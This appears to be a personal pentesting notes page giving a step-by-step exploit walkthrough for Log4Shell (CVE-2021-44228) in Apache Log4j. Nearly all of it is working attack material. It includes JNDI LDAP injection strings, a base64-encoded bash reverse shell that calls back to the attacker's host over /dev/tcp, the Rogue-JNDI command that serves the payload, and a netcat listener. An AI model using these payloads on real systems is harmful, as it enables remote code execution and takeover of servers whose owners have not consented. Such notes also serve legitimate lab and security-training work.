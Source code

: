 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# CVE - Log4Shell

**I**s a critical vulnerability now reported as [_CVE-2021-44228_](https://nvd.nist.gov/vuln/detail/cve-2021-44228) discovered in the Apache _Log4j_ library, widely used for logging in Java-based applications. It allows attackers to execute arbitrary code on a server by injecting a malicious payload into a log message.&#x20;

Here we can find a way to do an attack on a target affected by this vulnerability:

* Send a payload to confirm the server is connecting back

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong># Insert this payload on the vulnerable point
</strong><strong>${jndi:ldap://$IP/test} # Specify your IP
</strong><strong>
</strong><strong># Set TCP listener on our machine
</strong>sudo tcpdump -i $interface port $LDAPport # Specify the Network Interface you are using and the port running LDAP which by default is 389

# If it works, we will see a result like this
01:02:56.775423 IP $TargetIP.48214 > $OurIP.ldap: Flags [S], seq 1793598680, win 64240, options [mss 1340,sackOK,TS val 2750652936 ecr 0,nop,wscale 7], length 0
01:02:56.775456 IP $OurIP.ldap > $TargetIP.48214: Flags [R.], seq 0, ack 1793598681, win 0, length 0
</code></pre>

***

* Install necessary Java tools to generate a payload

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">sudo apt install maven
<strong>sudo apt install openjdk-24-jdk
</strong></code></pre>

***

* Download and build the _Rogue-JNDI_ Java application

{% code overflow="wrap" lineNumbers="true" %}
```bash
git clone https://github.com/veracode-research/rogue-jndi
cd 
mvn package
```
{% endcode %}

***

* Create a payload to use&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo 'bash -c bash -i >&/dev/tcp/$IP/$port 0>&1' | base64
```
{% endcode %}

{% hint style="info" %}
This example is done with a reverse shell but could be any command desired for the RCE, and we encode the payload to avoid issues with Rogue-JNDI
{% endhint %}

***

* Start the _Rogue-JNDI_ application while passing in the payload

{% code overflow="wrap" lineNumbers="true" %}
```bash
# Use the encoded payload and specify your IP
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,$encPayload}|{base64,-d}|{bash,-i}" --hostname "$IP"

# If it works, we will see a result like this
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.117:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.117:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.117:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.117:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.117:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.117:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.14.117:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.117:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
```
{% endcode %}

***

* (Optional) Set up a [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nvlp 4444
```
{% endcode %}

{% hint style="info" %}
This is done working with the example of the reverse shell
{% endhint %}

***

* Access to the created payload using the vulnerable point

{% code overflow="wrap" lineNumbers="true" %}
```bash
${jndi:ldap://$IP:1389/o=tomcat}
#If successful the command will be executed on the target host
```
{% endcode %}

